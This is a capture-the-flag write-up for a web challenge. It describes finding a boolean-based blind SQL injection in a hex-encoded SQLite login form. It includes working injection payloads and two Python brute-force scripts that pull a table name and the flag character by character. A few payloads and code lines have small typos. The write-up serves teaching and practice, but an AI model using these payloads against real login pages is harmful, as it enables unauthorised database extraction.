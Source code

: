 # B!inded! (Web Challenge)
### First it is my first time to write writeups so it will be nice if you have a negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag , Format : EGCERT{flag}
Points : 200

```

## Enumeration 
 
once i opened the challenge i found this page 

[loginpage](./assets/ieee/B!inded!/login-page)

And we have a hint on the description that tell us we don't need to fuzzing so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , i have got response ```wrong password``` so now i know that we have admin username . 

i tried again with aboelnour and pass and i have got that user not found

so i fired up my burp and send ```a``` in user and ```a``` in pass

And i have noticed that username and password converted to hex and sperated by four zeros 
for example a = 61 in hex so our request will be like this 

```
POST /login HTTP/1.1
Host: challenge.com

61000061

```

and the response of this request is

```
user not found 
```


And from the challenge name i got that it might be blind sqli 

so i typed ```aboelnour"``` in username and ```0``` in pass , i have got internal server error.
then i typed ```aboelnour" or 1=1 -- -``` and B00M i have got response ```Wrong Password```  , to make sure i tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

i tried ```admin" select version()-- -``` but i got internal server error 

so i tried ```admin"select sqlite_version()-- -``` , and response was Wrong password , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all , we have SQL Server SUBSTRING() Function , this function use to extracts some characters from a     string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have alos SQL LIKE Operator : you can check it on "https://www.w3schools.com/sql/sql_like.asp"



so if we have table name = users and column name = user we can enum users with query like this 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then i have searched about how to extract tables from SQLitedb and found this payloads in payloadsALLTheThings on github : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version


I got this query to Extract table names

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl in any position  

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

i tried it and i have got User not found so the first char not f 

So i have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so i have wrote python script to got table name 

----

## Exploit code 

first we need to convert our username to hex and concate it with 000061 , 61 is the password
second we need to brute force chars in i place then check if Wrong in response so we got the right char and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i got 
```
Flag table name : Flag_jnk249
```

so now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

i modified my previse script to got the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : https://www.linkedin.com/in/maboelnour12/
#### Facebook : https://www.facebook.com/maboelnour12
